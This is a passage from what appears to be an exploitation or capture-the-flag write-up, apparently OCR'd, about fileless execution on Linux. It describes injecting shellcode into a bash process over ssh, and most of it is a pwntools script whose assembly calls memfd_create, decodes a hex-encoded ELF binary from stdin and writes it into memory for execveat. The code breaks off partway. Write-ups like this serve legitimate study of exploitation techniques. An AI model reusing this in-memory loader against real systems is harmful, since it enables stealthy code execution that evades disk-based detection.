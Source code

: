 You can write to the file created by `memfd_create()` to populate its memory. You can execute this file too using `execveat()`, which permit to execute an elf executable file fully from memory. Some executable compression programs use this method too, to decompress a file to memory and execute it.

So I write a shellcode that read the elf exec binary to be executed from stdin, write if to a memfd_create returned filedescriptor, then execute our payload with execveat(). This shellcode will be injected to bash process, it will be our first payload.

>  as we are connected to the VM via ssh, we are using a terminal, and often sending raw binary data could interfere with terminal. So we will encode our elf exec binary exploit to be upload as ascii hexadecimal, our little shellcode will decode it on the fly before writing it to memory.

Ok so after some tweaking & adjustements I finalize our executable upload python script.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64", os="linux")
#context.log_level="debug"

shellcode1 = asm('''
memfd:
/* memfd_create,  create a file mmapped in memory*/
        xor esi,esi
        xor eax,eax
        mov ax,319
        mov rdi,rsp
        syscall
        mov ebp,eax             /* store memfd fd in ebp */

/* convert hexadecimal to binary (sorry for ugly code)*/
read:
	xor edi,edi
        mov rsi,rsp
        xor eax,eax
        push 2
        pop rdx
        syscall
	mov al,[rsi]
        cmp al,0xa		/* if char is carriage return, ignore it (newline) and continue reading */
	jz  read
	cmp al,0x2e             /* char "." indicates end of file */
	jz execveat

/* hexadecimal to binary, convert first char */
	sub al,0x30
	cmp al,9
	jle good
	sub al, 0x27
good:
	shl al,4
	mov bl,[rsi+1]
	sub bl,0x30
	cmp bl,9
	jle good2
	sub bl, 0x27
good2:
	or al,bl
	mov [rsi],al

/* write the byte converted to memfd file */
        mov  edi,ebp
        push 1
        pop rax
	push 1
```